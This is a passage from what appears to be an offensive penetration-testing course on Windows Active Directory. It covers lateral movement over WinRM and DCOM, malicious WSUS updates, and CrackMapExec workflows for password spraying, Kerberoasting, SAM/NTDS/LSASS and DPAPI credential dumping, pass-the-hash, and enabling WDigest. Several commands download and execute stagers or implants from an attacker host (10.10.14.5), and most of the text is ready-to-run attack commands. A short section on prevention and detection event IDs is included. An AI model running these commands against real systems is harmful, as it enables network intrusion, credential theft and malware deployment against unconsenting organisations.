# Password auth evil-winrm -i 10.10.10.50 -u admin -p 'P@ss123' # Pass-the-hash evil-winrm -i 10.10.10.50 -u admin -H 7facdc498ed1680c4fd1448319a8c04f - Test WinRM connectivity and create a credential object:
Test-WSMan -ComputerName SRV01 $cred = New-Object System.Management.Automation.PSCredential("CORP\admin", (ConvertTo-SecureString "P@ss123" -AsPlainText -Force)) - Execute commands on remote hosts via PowerShell Remoting:
# Single host Invoke-Command -ComputerName SRV01 -Credential $cred -ScriptBlock { whoami; hostname } # Multiple hosts simultaneously Invoke-Command -ComputerName SRV01,SRV02,DC01 -Credential $cred -ScriptBlock { hostname } - Open an interactive remote session:
Enter-PSSession -ComputerName SRV01 -Credential $cred - Use DCOM lateral movement via MMC20.Application:
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "10.10.10.50")) $com.Document.ActiveView.ExecuteShellCommand("cmd.exe", $null, "/c whoami > C:\Temp\dcom.txt", "7") - Use DCOM via ShellWindows as an alternative COM object:
$com = [activator]::CreateInstance([type]::GetTypeFromCLSID("9BA05972-F6A8-11CF-A442-00A0C90A8F39", "10.10.10.50")) $com.item().Document.Application.ShellExecute("cmd.exe", "/c calc.exe", "C:\Windows\System32", $null, 0) - Use DCOM via ShellBrowserWindow for single-instance execution:
$com = [activator]::CreateInstance([type]::GetTypeFromCLSID("C08AFD90-F2A1-11D1-8455-00A0C91F3880", "10.10.10.50")) $com.Document.Application.ShellExecute("cmd.exe", "/c net user /domain", "C:\Windows\System32", $null, 0)
4.5 Software Deployment and Detection
Enterprise software deployment tools (SCCM, PDQ Deploy, ManageEngine) and GPO-based software installation provide legitimate mechanisms for remote code execution. If an attacker gains access to these platforms, they can deploy payloads to any managed system.
4.5.1 Software Deployment and Remote Management
Enterprise software deployment tools (SCCM, PDQ Deploy, ManageEngine) and GPO-based software installation provide legitimate mechanisms for remote code execution. If an attacker gains access to these platforms, they can deploy payloads to any managed system.
- SCCM: see Module 15 for detailed SCCM exploitation
- PDQ Deploy: compromising the PDQ server allows pushing packages to all managed endpoints. Credentials for the deployment service account are often stored locally
- GPO Software Installation: users with GPO edit rights can add MSI packages that install on all computers in the linked OU at next Group Policy refresh
# Enumerate GPOs that deploy software
Get-GPO -All | ForEach-Object {
$gpoId = $_.Id
$gpoName = $_.DisplayName
$path = "\\$($_.DomainName)\SYSVOL\$($_.DomainName)\Policies\{$gpoId}\Machine\Scripts"
if (Test-Path $path) { Write-Output "$gpoName : $path" }
}4.5.2 Windows Server Update Services (WSUS)
WSUS manages Windows Update distribution in enterprise environments. If WSUS uses HTTP (not HTTPS), a man-in-the-middle attack can inject malicious updates.
WSUS Overview
WSUS clients pull updates from the WSUS server over HTTP (port 8530) or HTTPS (port 8531). If the connection uses HTTP, ARP spoofing or WPAD manipulation can position the attacker between the client and the WSUS server.
# Check WSUS configuration on a client
reg query "HKLM\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate" /v WUServer
# Check if WSUS uses HTTP (vulnerable) or HTTPS
# HTTP = exploitable; HTTPS = not exploitable via this methodSharpWSUS
SharpWSUS is a .NET tool that creates malicious WSUS updates on a compromised WSUS server. It injects a fake update that executes an arbitrary command on client machines when they check for updates.
# Locate the WSUS server
.\SharpWSUS.exe locate
# Enumerate WSUS clients
.\SharpWSUS.exe enumerate
# Create a malicious update targeting a specific client
.\SharpWSUS.exe create /payload:"C:\Temp\beacon.exe" /args:"/q" /title:"Security Update" /target:"WS01.corp.local"
# Approve and deploy the update
.\SharpWSUS.exe approve /updateid:<guid> /target:"WS01.corp.local"
# Cleanup after execution
.\SharpWSUS.exe delete /updateid:<guid>WSUSPect
WSUSPect performs a man-in-the-middle attack against WSUS clients connecting over HTTP. It intercepts the update check and injects a malicious update containing an arbitrary binary.
# WSUSPect proxy (requires MITM position)
python wsuspect_proxy.py -c "C:\Windows\System32\cmd.exe" -a "/c powershell -enc <base64>"4.5.3 General Considerations
Key operational considerations for lateral movement:
- Credential material types: plaintext passwords work with all methods. NTLM hashes work with PtH-compatible tools (SMB, WMI, WinRM via evil-winrm). Kerberos tickets work with pass-the-ticket. Choose the method that matches your available credential material
- Logon type impact: Type 3 (Network) logons do NOT cache credentials on the target. Type 10 (RemoteInteractive/RDP) logons DO cache credentials. Prefer Type 3 when possible to avoid leaving credential material behind
- Token impersonation: after lateral movement, the security context may not match what you expect. Use
whoamiandklistto verify the current identity and available tickets - Cleanup: remove artifacts (uploaded binaries, created services, scheduled tasks) after completing objectives on each host. Tools like PsExec create and delete a service automatically, but the event logs persist
- Port requirements: verify that the required ports (445, 135, 5985, 3389) are accessible from your current position. Use
Test-NetConnectionornmapto check before attempting lateral movement
4.5.4 Lateral Movement Prevention and Detection
Defending against lateral movement requires a layered approach combining network segmentation, privilege management, and monitoring.
- Network segmentation: restrict SMB (445), WinRM (5985/5986), and RDP (3389) traffic between workstations. Only allow these protocols from management hosts to servers
- Privileged Access Workstations (PAW): administer Tier-0 assets (DCs, ADCS, SCCM) only from hardened PAWs. Do not use privileged credentials on lower-tier workstations
- Local Administrator Password Solution (LAPS): randomize local admin passwords on every machine to prevent pass-the-hash between hosts
- Windows Defender Credential Guard: protects LSASS from credential dumping by running it in a virtualized container
- Protected Users group: members cannot use NTLM, DES, or RC4 Kerberos encryption. Credentials are never cached
Detection rules:
| Technique | Event ID | Detection |
|---|---|---|
| PsExec | 7045 | Service installation with random name |
| WMI | 4648 | Explicit credential logon via WMI |
| WinRM | 4624 + 91 | Type 3 logon on port 5985 |
| RDP | 4624 + 1149 | Type 10 logon with source IP |
| DCOM | 4624 | Type 3 logon via DCOM port 135 |
| Pass-the-Hash | 4624 | Type 3 logon with NTLM auth and non-standard source |
| Service Creation | 7045, 4697 | New service installed on remote host |
| Scheduled Task | 4698 | New scheduled task created remotely |
Methodology
- Enumerate GPOs that deploy software or contain startup scripts:
Get-GPO -All | ForEach-Object { $gpoId = $_.Id $gpoName = $_.DisplayName $path = "\\$($_.DomainName)\SYSVOL\$($_.DomainName)\Policies\{$gpoId}\Machine\Scripts" if (Test-Path $path) { Write-Output "$gpoName : $path" } } - Check WSUS configuration for HTTP (exploitable) vs HTTPS:
reg query "HKLM\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate" /v WUServer - If WSUS uses HTTP, exploit with SharpWSUS to push a malicious update:
.\SharpWSUS.exe locate .\SharpWSUS.exe enumerate .\SharpWSUS.exe create /payload:"C:\Temp\beacon.exe" /args:"/q" /title:"Security Update" /target:"WS01.corp.local" .\SharpWSUS.exe approve /updateid:<guid> /target:"WS01.corp.local" - Clean up SharpWSUS artifacts after execution:
.\SharpWSUS.exe delete /updateid:<guid> - Verify port accessibility before attempting lateral movement:
Test-NetConnection -ComputerName SRV01 -Port 445 Test-NetConnection -ComputerName SRV01 -Port 5985 Test-NetConnection -ComputerName SRV01 -Port 3389 - After completing objectives, verify identity and clean up artifacts:
whoami klist
5. Using CrackMapExec
CrackMapExec (CME) is a post-exploitation tool for pentesting Active Directory environments. It automates credential validation, enumeration, and command execution across large networks. The project was forked and continued as NetExec (nxc), which maintains the same syntax and module ecosystem. Throughout this module, commands use crackmapexec but can be substituted with nxc interchangeably.
5.1 CME Overview and Setup
CME is pre-installed on most offensive Linux distributions. For manual installation or to use NetExec:
# Install CrackMapExec via pipx
pipx install crackmapexec
# Install NetExec (actively maintained fork)
pipx install netexec
# Verify installation
crackmapexec --version
nxc --versionTargets can be specified in several formats:
| Format | Example | Description |
|---|---|---|
| Single IP | 192.168.1.10 | Target a single host |
| CIDR range | 192.168.1.0/24 | Target an entire subnet |
| IP range | 192.168.1.1-50 | Target a range of hosts |
| File | targets.txt | One target per line |
Supported protocols:
# List available protocols
crackmapexec --help
# Protocol-specific help
crackmapexec smb --help
crackmapexec ldap --help| Protocol | Default Port | Primary Use |
|---|---|---|
| smb | 445 | Share enum, credential validation, command execution |
| ldap | 389/636 | AD enumeration, user and group queries |
| mssql | 1433 | SQL queries, xp_cmdshell execution |
| ssh | 22 | SSH credential validation and command execution |
| winrm | 5985/5986 | PowerShell remoting |
| rdp | 3389 | RDP access validation (NLA check) |
| ftp | 21 | FTP credential validation |
5.2 Enumeration and Reconnaissance
Running CME against a target with the SMB protocol and no credentials returns useful information about the host, including hostname, domain, OS version, and whether SMB signing is enforced.
5.2.1 Basic SMB Reconnaissance
Running CME against a target with the SMB protocol and no credentials returns useful information about the host, including hostname, domain, OS version, and whether SMB signing is enforced.
# Basic host enumeration (no credentials)
crackmapexec smb 192.168.1.0/24
# Output shows: host, domain, OS, signing status
# SMB 192.168.1.10 445 DC01 [*] Windows Server 2019 Build 17763 x64 (domain:CORP.LOCAL) (signing:True) (SMBv1:False)Key indicators from the output:
- signing:True means SMB signing is enforced and the host is not vulnerable to SMB relay
- signing:False means the host is a candidate for NTLM relay attacks
- Domain controllers typically enforce signing; workstations and member servers often do not
# Generate a list of hosts with signing disabled (relay targets)
crackmapexec smb 192.168.1.0/24 --gen-relay-list relay_targets.txt5.2.2 Exploiting NULL and Anonymous Sessions
Older or misconfigured systems may permit NULL session access, allowing unauthenticated enumeration of shares, users, and groups.
# Attempt NULL session enumeration
crackmapexec smb 192.168.1.10 -u '' -p ''
# Enumerate shares with NULL session
crackmapexec smb 192.168.1.10 -u '' -p '' --shares
# Enumerate users via NULL session
crackmapexec smb 192.168.1.10 -u '' -p '' --users
# Enumerate groups
crackmapexec smb 192.168.1.10 -u '' -p '' --groups
# Try anonymous access with guest account
crackmapexec smb 192.168.1.10 -u 'guest' -p '' --sharesRestrictAnonymous and RestrictAnonymousSAM registry values control this behaviour. Domain controllers running Windows Server 2016+ rarely allow NULL sessions.5.2.3 Spidering SMB Shares
CME can crawl SMB shares to identify interesting files such as configuration files, scripts, and documents containing credentials.
# Spider all accessible shares (spider_plus module)
crackmapexec smb 192.168.1.10 -u jsmith -p 'Password1' -M spider_plus
# Spider with depth and output to JSON
crackmapexec smb 192.168.1.10 -u jsmith -p 'Password1' -M spider_plus -o EXCLUDE_DIR=IPC$
# Basic share spidering with pattern matching
crackmapexec smb 192.168.1.10 -u jsmith -p 'Password1' --spider C$ --pattern txt,xml,config,ini,ps1
# List shares first to identify targets
crackmapexec smb 192.168.1.0/24 -u jsmith -p 'Password1' --sharesThe spider_plus module outputs results to /tmp/cme_spider_plus/ as JSON files. Each file corresponds to a target host and lists all discovered files with their sizes and paths.
5.2.4 Mapping and Enumeration with SMB
CME provides several built-in flags for enumerating information from hosts via SMB.
# Enumerate shares and access permissions
crackmapexec smb 192.168.1.10 -u jsmith -p 'Password1' --shares
# Enumerate logged-on users
crackmapexec smb 192.168.1.10 -u jsmith -p 'Password1' --loggedon-users
# Enumerate active sessions
crackmapexec smb 192.168.1.10 -u jsmith -p 'Password1' --sessions
# Enumerate disk drives
crackmapexec smb 192.168.1.10 -u jsmith -p 'Password1' --disks
# Enumerate domain users via RID brute forcing
crackmapexec smb 192.168.1.10 -u jsmith -p 'Password1' --rid-brute
# Enumerate domain users
crackmapexec smb 192.168.1.10 -u jsmith -p 'Password1' --users
# Enumerate domain groups
crackmapexec smb 192.168.1.10 -u jsmith -p 'Password1' --groups
# Enumerate domain computers
crackmapexec smb 192.168.1.10 -u jsmith -p 'Password1' --computers
# Enumerate local groups on a host
crackmapexec smb 192.168.1.10 -u jsmith -p 'Password1' --local-groups
# Enumerate password policy
crackmapexec smb 192.168.1.10 -u jsmith -p 'Password1' --pass-polCombine --loggedon-users across a subnet to identify where high-value accounts (Domain Admins) have active sessions. This is useful for targeting lateral movement.
5.2.5 LDAP and RDP Enumeration
The LDAP protocol enables direct AD queries, while RDP validates remote desktop access.
# Enumerate users via LDAP
crackmapexec ldap dc01.corp.local -u jsmith -p 'Password1' --users
# Enumerate groups via LDAP
crackmapexec ldap dc01.corp.local -u jsmith -p 'Password1' --groups
# Enumerate computers via LDAP
crackmapexec ldap dc01.corp.local -u jsmith -p 'Password1' --computers
# Get domain SID
crackmapexec ldap dc01.corp.local -u jsmith -p 'Password1' --get-sid
# Find admin accounts via LDAP
crackmapexec ldap dc01.corp.local -u jsmith -p 'Password1' --admin-count
# Check RDP access
crackmapexec rdp 192.168.1.0/24 -u jsmith -p 'Password1'
# Check RDP with NLA bypass
crackmapexec rdp 192.168.1.10 -u jsmith -p 'Password1' --nla-screenshotThe LDAP protocol queries the domain controller directly and returns more comprehensive results than SMB-based enumeration. Use it for broad AD reconnaissance and leave SMB-based enumeration for host-specific tasks.
Methodology
- Scan the subnet for live SMB hosts and identify signing status:
crackmapexec smb 192.168.1.0/24 - Generate a relay target list from hosts with signing disabled:
crackmapexec smb 192.168.1.0/24 --gen-relay-list relay_targets.txt - Attempt NULL session enumeration for shares and users:
crackmapexec smb 192.168.1.10 -u '' -p '' --shares crackmapexec smb 192.168.1.10 -u '' -p '' --users - With valid credentials, spider shares for sensitive files:
crackmapexec smb 192.168.1.10 -u jsmith -p 'Password1' -M spider_plus - Enumerate logged-on users across the subnet to locate high-value sessions:
crackmapexec smb 192.168.1.0/24 -u jsmith -p 'Password1' --loggedon-users - Enumerate password policy, domain users, groups, and computers:
crackmapexec smb 192.168.1.10 -u jsmith -p 'Password1' --pass-pol crackmapexec smb 192.168.1.10 -u jsmith -p 'Password1' --users crackmapexec smb 192.168.1.10 -u jsmith -p 'Password1' --groups - Run LDAP queries against the DC for broader AD reconnaissance:
crackmapexec ldap dc01.corp.local -u jsmith -p 'Password1' --users crackmapexec ldap dc01.corp.local -u jsmith -p 'Password1' --admin-count crackmapexec ldap dc01.corp.local -u jsmith -p 'Password1' --get-sid - Validate RDP access across the subnet:
crackmapexec rdp 192.168.1.0/24 -u jsmith -p 'Password1'
5.3 Authentication Attacks
CME excels at password spraying across large environments. It validates credentials against SMB and reports which accounts authenticate successfully.
5.3.1 Password Spraying
CME excels at password spraying across large environments. It validates credentials against SMB and reports which accounts authenticate successfully.
# Spray a single password against a single user
crackmapexec smb 192.168.1.10 -u jsmith -p 'Welcome1!'
# Spray a single password against a user list
crackmapexec smb 192.168.1.10 -u users.txt -p 'Spring2024!'
# Spray multiple passwords against multiple users (one password per user, line by line)
crackmapexec smb 192.168.1.10 -u users.txt -p passwords.txt --no-bruteforce
# Spray one password against all users (bruteforce mode, all combinations)
crackmapexec smb 192.168.1.10 -u users.txt -p passwords.txt
# Continue spraying after finding a valid credential
crackmapexec smb 192.168.1.10 -u users.txt -p 'Password1' --continue-on-successOutput interpretation:
- [+] with
(Pwn3d!)means local admin on the target - [+] without
(Pwn3d!)means valid credentials but not admin - [-] means failed authentication
- STATUS_ACCOUNT_LOCKED_OUT means the account is locked; stop spraying immediately
# Spray against the domain controller to validate domain credentials
crackmapexec smb dc01.corp.local -u users.txt -p 'Summer2024!' -d CORP.LOCAL
# Use a different protocol for spraying
crackmapexec winrm 192.168.1.10 -u users.txt -p 'Welcome1!' -d CORP5.3.2 Finding ASREPRoastable Accounts
CME can identify accounts with Kerberos pre-authentication disabled and extract their AS-REP hashes for offline cracking.
# Find ASREPRoastable accounts and extract hashes
crackmapexec ldap dc01.corp.local -u jsmith -p 'Password1' --asreproast asrep_hashes.txt
# Crack the extracted hashes with hashcat (mode 18200)
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txtAccounts vulnerable to AS-REP roasting have the DONT_REQUIRE_PREAUTH UAC flag set. This is uncommon but appears in environments with legacy Kerberos integrations.
5.3.3 Finding Kerberoastable Accounts
CME can identify service accounts with SPNs registered and request their TGS tickets for offline cracking.
# Find Kerberoastable accounts and extract TGS hashes
crackmapexec ldap dc01.corp.local -u jsmith -p 'Password1' --kerberoasting kerb_hashes.txt
# Crack TGS hashes with hashcat
# RC4 encrypted tickets (mode 13100)
hashcat -m 13100 kerb_hashes.txt /usr/share/wordlists/rockyou.txt
# AES-256 encrypted tickets (mode 19700)
hashcat -m 19700 kerb_hashes.txt /usr/share/wordlists/rockyou.txtAccounts with weak passwords and registered SPNs are high-value targets. Prioritize accounts in privileged groups such as Domain Admins, where a cracked ticket grants immediate domain compromise.
5.3.4 Stealing Hashes
With local administrator access, CME can dump credential material from the SAM database, LSA secrets, and the NTDS.dit file on domain controllers.
# Dump SAM hashes (local accounts)
crackmapexec smb 192.168.1.10 -u admin -p 'Password1' --sam
# Dump LSA secrets (service account credentials, cached logons)
crackmapexec smb 192.168.1.10 -u admin -p 'Password1' --lsa
# Dump NTDS.dit (all domain hashes, requires DA or equivalent on DC)
crackmapexec smb dc01.corp.local -u administrator -p 'AdminPass!' --ntds
# Dump NTDS using VSS method
crackmapexec smb dc01.corp.local -u administrator -p 'AdminPass!' --ntds vss| Flag | Source | Requires | Yields |
|---|---|---|---|
--sam | SAM registry hive | Local admin | Local account NTLM hashes |
--lsa | LSA secrets | Local admin | Service account passwords, DPAPI keys |
--ntds | NTDS.dit | Domain admin (on DC) | All domain account NTLM hashes |
5.3.5 Kerberos Authentication
CME supports Kerberos authentication via ccache files, enabling pass-the-ticket attacks and integration with tools like Impacket and Rubeus.
# Set the KRB5CCNAME environment variable to a ccache file
export KRB5CCNAME=/tmp/krb5cc_jsmith
# Authenticate with Kerberos ticket
crackmapexec smb dc01.corp.local -u jsmith --use-kcache
# Use the -k flag for Kerberos authentication with credentials
crackmapexec smb dc01.corp.local -u jsmith -p 'Password1' -k
# Combine Kerberos auth with enumeration
crackmapexec smb dc01.corp.local -u jsmith --use-kcache --shares
# Obtain a ccache with Impacket first
getTGT.py CORP/jsmith:'Password1' -dc-ip 192.168.1.10
export KRB5CCNAME=jsmith.ccache
crackmapexec smb dc01.corp.local --use-kcache --sharesKerberos authentication avoids passing NTLM credentials over the network, which can bypass NTLM-based detection rules. It requires a valid ccache file and proper DNS resolution (the target must be specified by hostname, not IP).
dc01.corp.local), not by IP address. Kerberos requires proper hostname resolution to locate the SPN for the service ticket.Methodology
- Spray a single password against a user list and continue after hits:
crackmapexec smb 192.168.1.10 -u users.txt -p 'Spring2024!' --continue-on-success - Check output for
[+] (Pwn3d!)(local admin) vs[+](valid but not admin) and stop ifSTATUS_ACCOUNT_LOCKED_OUTappears - Extract AS-REP hashes for accounts with pre-auth disabled:
crackmapexec ldap dc01.corp.local -u jsmith -p 'Password1' --asreproast asrep_hashes.txt hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt - Request TGS tickets for Kerberoastable service accounts:
crackmapexec ldap dc01.corp.local -u jsmith -p 'Password1' --kerberoasting kerb_hashes.txt hashcat -m 13100 kerb_hashes.txt /usr/share/wordlists/rockyou.txt - Dump SAM, LSA, and NTDS from targets with admin access:
crackmapexec smb 192.168.1.10 -u admin -p 'Password1' --sam crackmapexec smb 192.168.1.10 -u admin -p 'Password1' --lsa crackmapexec smb dc01.corp.local -u administrator -p 'AdminPass!' --ntds - Authenticate using Kerberos tickets instead of NTLM:
export KRB5CCNAME=/tmp/krb5cc_jsmith crackmapexec smb dc01.corp.local -u jsmith --use-kcache --shares
5.4 Command Execution and Secrets
Group Policy Preferences (GPP) historically stored passwords in an encrypted format on the SYSVOL share. Microsoft published the AES key used for this encryption, making all GPP passwords trivially recoverable.
5.4.1 Searching for Credentials in Group Policy Objects
Group Policy Preferences (GPP) historically stored passwords in an encrypted format on the SYSVOL share. Microsoft published the AES key used for this encryption, making all GPP passwords trivially recoverable.
# Search for GPP passwords in SYSVOL
crackmapexec smb dc01.corp.local -u jsmith -p 'Password1' -M gpp_password
# Search for GPP autologon credentials
crackmapexec smb dc01.corp.local -u jsmith -p 'Password1' -M gpp_autologinThe gpp_password module searches for Groups.xml, Services.xml, Scheduledtasks.xml, DataSources.xml, Printers.xml, and Drives.xml files containing the cpassword attribute. Despite Microsoft patching this in MS14-025, existing GPP files with passwords are not automatically removed.
5.4.2 Command Execution
CME supports several execution methods for running commands on remote hosts. Each method has different OPSEC implications and access requirements.
# Execute a command via cmd.exe
crackmapexec smb 192.168.1.10 -u admin -p 'Password1' -x "whoami /all"
# Execute a PowerShell command
crackmapexec smb 192.168.1.10 -u admin -p 'Password1' -X "Get-Process | Select-Object -First 5"
# Specify execution method
crackmapexec smb 192.168.1.10 -u admin -p 'Password1' -x "ipconfig" --exec-method smbexec
crackmapexec smb 192.168.1.10 -u admin -p 'Password1' -x "ipconfig" --exec-method wmiexec
crackmapexec smb 192.168.1.10 -u admin -p 'Password1' -x "ipconfig" --exec-method atexec
crackmapexec smb 192.168.1.10 -u admin -p 'Password1' -x "ipconfig" --exec-method mmcexec| Method | Mechanism | Ports | OPSEC Notes |
|---|---|---|---|
| wmiexec | WMI process creation | 135, dynamic | Semi-interactive, low artifact footprint |
| smbexec | Creates a Windows service | 445 | Creates and deletes a service; leaves service creation event (7045) |
| atexec | Scheduled task via AT | 445 | Creates a scheduled task; output written to temp file on target |
| mmcexec | MMC DCOM object | 135, dynamic | Uses MMC20.Application DCOM; similar to wmiexec |
5.4.3 Finding Secrets and Using Them
Beyond SAM, LSA, and NTDS dumping, CME supports DPAPI credential extraction and pass-the-hash authentication.
# Dump DPAPI credentials (browser passwords, Wi-Fi keys, saved credentials)
crackmapexec smb 192.168.1.10 -u admin -p 'Password1' -M dpapi_cred
# Use an NTLM hash instead of a password (pass the hash)
crackmapexec smb 192.168.1.10 -u administrator -H aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
# Use only the NT hash portion
crackmapexec smb 192.168.1.10 -u administrator -H 31d6cfe0d16ae931b73c59d7e0c089c0
# Spray a hash against multiple hosts
crackmapexec smb 192.168.1.0/24 -u administrator -H 31d6cfe0d16ae931b73c59d7e0c089c0 --local-auth
# Dump LSASS via lsassy module (in-memory, no disk write)
crackmapexec smb 192.168.1.10 -u admin -p 'Password1' -M lsassy
# Dump LSASS with nanodump (stealthier)
crackmapexec smb 192.168.1.10 -u admin -p 'Password1' -M nanodumpWhen using -H for pass-the-hash, the format is LM:NT or just the NT hash. Modern Windows environments do not use LM hashes, so the LM portion can be set to aad3b435b51404eeaad3b435b51404ee (empty LM) or omitted entirely.
5.4.4 Getting Sessions in a C2 Framework
CME can execute payloads that establish sessions in a C2 framework like Sliver or Metasploit.
# Execute a Sliver implant via CME
crackmapexec smb 192.168.1.10 -u admin -p 'Password1' -x "\\\\10.10.14.5\\share\\implant.exe"
# Use PowerShell to download and execute
crackmapexec smb 192.168.1.10 -u admin -p 'Password1' -X "IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.5/stager.ps1')"
# Use the web_delivery module (Metasploit integration)
crackmapexec smb 192.168.1.10 -u admin -p 'Password1' -M web_delivery -o URL=http://10.10.14.5:8080/payload
# Execute across multiple hosts for mass deployment
crackmapexec smb targets.txt -u admin -H 31d6cfe0d16ae931b73c59d7e0c089c0 -x "\\\\10.10.14.5\\share\\beacon.exe"For Sliver specifically, generate a shellcode or executable implant, host it on an SMB share or HTTP server, and use CME to trigger execution on target hosts.
Methodology
- Search SYSVOL for GPP passwords and autologon credentials:
crackmapexec smb dc01.corp.local -u jsmith -p 'Password1' -M gpp_password crackmapexec smb dc01.corp.local -u jsmith -p 'Password1' -M gpp_autologin - Execute commands remotely, choosing an exec method based on OPSEC needs:
crackmapexec smb 192.168.1.10 -u admin -p 'Password1' -x "whoami /all" --exec-method wmiexec - Dump DPAPI credentials (browser passwords, saved credentials):
crackmapexec smb 192.168.1.10 -u admin -p 'Password1' -M dpapi_cred - Pass the hash with a recovered NT hash:
crackmapexec smb 192.168.1.0/24 -u administrator -H 31d6cfe0d16ae931b73c59d7e0c089c0 --local-auth - Dump LSASS remotely using lsassy or nanodump modules:
crackmapexec smb 192.168.1.10 -u admin -p 'Password1' -M lsassy crackmapexec smb 192.168.1.10 -u admin -p 'Password1' -M nanodump - Deploy a Sliver implant via CME command execution:
crackmapexec smb 192.168.1.10 -u admin -p 'Password1' -x "\\10.10.14.5\share\implant.exe"
5.5 Modules and Integration
CME has a modular architecture. Modules extend functionality for specific tasks like credential dumping, vulnerability scanning, and enumeration.
5.5.1 Working with Modules
CME has a modular architecture. Modules extend functionality for specific tasks like credential dumping, vulnerability scanning, and enumeration.
# List all available modules
crackmapexec smb -L
# List modules for a specific protocol
crackmapexec ldap -L
# Get information about a specific module
crackmapexec smb -M lsassy --options
# Run a module against a target
crackmapexec smb 192.168.1.10 -u admin -p 'Password1' -M lsassy
# Run a module with options
crackmapexec smb 192.168.1.10 -u admin -p 'Password1' -M met_inject -o LHOST=10.10.14.5 LPORT=4444Modules are protocol-specific. An SMB module cannot be used with the LDAP protocol and vice versa. Use -L on each protocol to see its available modules.
5.5.2 BloodHound Integration
CME can mark compromised accounts as owned in BloodHound, which updates the attack path analysis in real time.
# Mark a user as owned in BloodHound
crackmapexec smb 192.168.1.10 -u admin -p 'Password1' -M bh_owned -o PASS=neo4jpassword
# Mark all hosts where you have admin as owned
crackmapexec smb 192.168.1.0/24 -u admin -p 'Password1' -M bh_owned -o PASS=neo4jpassword
# Specify BloodHound URI
crackmapexec smb 192.168.1.10 -u admin -p 'Password1' -M bh_owned -o URI=bolt://127.0.0.1:7687 USER=neo4j PASS=neo4jpasswordThis integrates the enumeration and exploitation workflow directly with BloodHound. As you compromise credentials and validate local admin access, marking owned principals automatically reveals new shortest paths to high-value targets.
5.5.3 Popular Modules
The following modules are frequently used in AD assessments.
| Module | Protocol | Description |
|---|---|---|
| lsassy | SMB | Extract credentials from LSASS memory remotely |
| nanodump | SMB | Dump LSASS using syscalls (stealthier than lsassy) |
| enum_av | SMB | Enumerate installed antivirus and EDR products |
| spider_plus | SMB | Recursively spider all readable shares |
| gpp_password | SMB | Extract GPP passwords from SYSVOL |
| petitpotam | SMB | Trigger PetitPotam authentication coercion |
| web_delivery | SMB | Deliver payloads from a web server |
| impersonate | SMB | List tokens available for impersonation |
| schtask_exec | SMB | Execute commands via scheduled tasks |
| wdigest | SMB | Enable WDigest to capture cleartext credentials on next logon |
# Enumerate AV and EDR products
crackmapexec smb 192.168.1.10 -u admin -p 'Password1' -M enum_av
# Enable WDigest for cleartext credential capture
crackmapexec smb 192.168.1.10 -u admin -p 'Password1' -M wdigest -o ACTION=enable
# Trigger PetitPotam coercion
crackmapexec smb dc01.corp.local -u jsmith -p 'Password1' -M petitpotam -o LISTENER=10.10.14.55.5.4 Vulnerability Scan Modules
CME includes modules for detecting well-known vulnerabilities without exploitation.
# Check for ZeroLogon (CVE-2020-1472)
crackmapexec smb dc01.corp.local -u '' -p '' -M zerologon
# Check for EternalBlue (MS17-010)
crackmapexec smb 192.168.1.0/24 -u '' -p '' -M ms17-010
# Check for PrintNightmare (CVE-2021-34527)
crackmapexec smb 192.168.1.0/24 -u jsmith -p 'Password1' -M printnightmare
# Check for NoPac / sAMAccountName spoofing (CVE-2021-42278 and CVE-2021-42287)
crackmapexec smb dc01.corp.local -u jsmith -p 'Password1' -M nopac
# Check for PetitPotam (unauthenticated)
crackmapexec smb dc01.corp.local -u '' -p '' -M petitpotamThese scan modules perform detection checks only. They send specific RPC requests and analyse responses to determine vulnerability status without modifying the target system.
5.5.5 Creating Custom CME Modules
CME modules are Python scripts placed in the modules directory. A minimal module implements the options and on_admin_login (or on_login) methods.
# Example: custom_enum.py
class CMEModule:
name = 'custom_enum'
description = 'Custom enumeration module'
supported_protocols = ['smb']
opsec_safe = True
multiple_hosts = True
def options(self, context, module_options):
'''Module options'''
pass
def on_admin_login(self, context, connection):
'''Called when admin credentials are validated'''
output = connection.execute('whoami /priv', True)
context.log.success(f'Privileges: {output}')# Place module in the CME modules directory
cp custom_enum.py ~/.cme/modules/
# For NetExec
cp custom_enum.py ~/.nxc/modules/
# Verify the module loads
crackmapexec smb -M custom_enum --optionsThe on_login method fires for any successful authentication; on_admin_login fires only when the user has local admin privileges (indicated by Pwn3d!).
Methodology
- List available modules and review options for a target module:
crackmapexec smb -L crackmapexec smb -M lsassy --options - Mark owned principals in BloodHound as you compromise credentials:
crackmapexec smb 192.168.1.0/24 -u admin -p 'Password1' -M bh_owned -o PASS=neo4jpassword - Enumerate AV and EDR products on target hosts:
crackmapexec smb 192.168.1.10 -u admin -p 'Password1' -M enum_av - Scan for critical vulnerabilities (ZeroLogon, EternalBlue, PrintNightmare, NoPac):
crackmapexec smb dc01.corp.local -u '' -p '' -M zerologon crackmapexec smb 192.168.1.0/24 -u '' -p '' -M ms17-010 crackmapexec smb dc01.corp.local -u jsmith -p 'Password1' -M nopac - Enable WDigest for cleartext credential capture on next logon:
crackmapexec smb 192.168.1.10 -u admin -p 'Password1' -M wdigest -o ACTION=enable - Deploy a custom module to the CME modules directory and verify it loads:
cp custom_enum.py ~/.cme/modules/ crackmapexec smb -M custom_enum --options
5.6 Advanced CME Usage
CME supports direct interaction with Microsoft SQL Server instances for enumeration, query execution, and command execution via xp_cmdshell.
5.6.1 MSSQL Enumeration and Attacks
CME supports direct interaction with Microsoft SQL Server instances for enumeration, query execution, and command execution via xp_cmdshell.
# Authenticate to MSSQL
crackmapexec mssql 192.168.1.20 -u sa -p 'SQLAdmin123!'
# Authenticate with Windows credentials
crackmapexec mssql 192.168.1.20 -u jsmith -p 'Password1' -d CORP
# Execute a SQL query
crackmapexec mssql 192.168.1.20 -u sa -p 'SQLAdmin123!' -q "SELECT name FROM sys.databases"
# Execute OS commands via xp_cmdshell
crackmapexec mssql 192.168.1.20 -u sa -p 'SQLAdmin123!' -x "whoami"
# Execute PowerShell commands
crackmapexec mssql 192.168.1.20 -u sa -p 'SQLAdmin123!' -X "Get-Process"xp_cmdshell is disabled by default on modern SQL Server installations. CME can enable it automatically if the authenticated user has sysadmin privileges, then disables it again after execution.5.6.2 Proxychains with CME
When pivoting through a compromised host, CME can be tunneled through a SOCKS proxy to reach internal networks.
# Configure proxychains (edit /etc/proxychains4.conf)
# socks4 127.0.0.1 1080
